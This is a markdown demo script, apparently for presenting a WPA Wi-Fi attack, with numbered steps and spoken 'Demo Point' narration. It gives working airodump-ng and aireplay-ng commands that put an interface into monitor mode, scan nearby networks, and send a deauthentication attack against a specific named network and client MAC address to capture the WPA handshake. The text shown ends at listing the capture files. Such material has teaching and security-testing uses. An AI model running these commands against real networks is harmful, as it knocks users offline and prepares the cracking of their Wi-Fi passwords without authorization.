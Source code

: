 **Demo Point**: "Notice how the interface mode changed from 'Managed' to 'Monitor'. This allows us to capture raw wireless packets."

### Step 3: Network Discovery (2 minutes)
```bash
# Start network scanning (run in background)
sudo airodump-ng wlp3s0 &

# Wait 10-15 seconds, then show results
# Press Ctrl+C to stop scanning
```

**Demo Point**: "Here we can see all nearby networks, their BSSIDs, channels, and connected clients. This is our reconnaissance phase."

### Step 4: Handshake Capture Setup (2 minutes)
```bash
# Show the capture script
cat capture_packet.sh

# Explain the target network
echo "Target: SSID='Ei j eta amar wifi', BSSID=8E:FA:5F:79:06:05, Channel=6"
```

**Demo Point**: "We've identified our target network. Now we'll capture the 4-way handshake."

### Step 5: Execute Deauthentication Attack (2 minutes)
```bash
# Show the packet injection script
cat packet_injection.sh

# Execute deauthentication (target specific client)
sudo aireplay-ng --deauth 10 -a 8E:FA:5F:79:06:05 -c E6:09:9A:D8:09:52 wlp3s0
```

**Demo Point**: "This deauthentication attack forces the client to reconnect, triggering a new 4-way handshake."

### Step 6: Capture Handshake (3 minutes)
```bash
# Start handshake capture
sudo airodump-ng --bssid 8E:FA:5F:79:06:05 --channel 6 --write handshake wlp3s0

# Wait for handshake capture (should see "WPA handshake: 8E:FA:5F:79:06:05")
# Press Ctrl+C when handshake is captured
```

**Demo Point**: "Perfect! We've captured the WPA handshake. This contains the cryptographic data we need for the attack."

### Step 7: Show Captured Data (1 minute)
```bash
# List captured files
ls -la handshake-*.cap

# Show file size
ls -lh handshake-*.cap
```
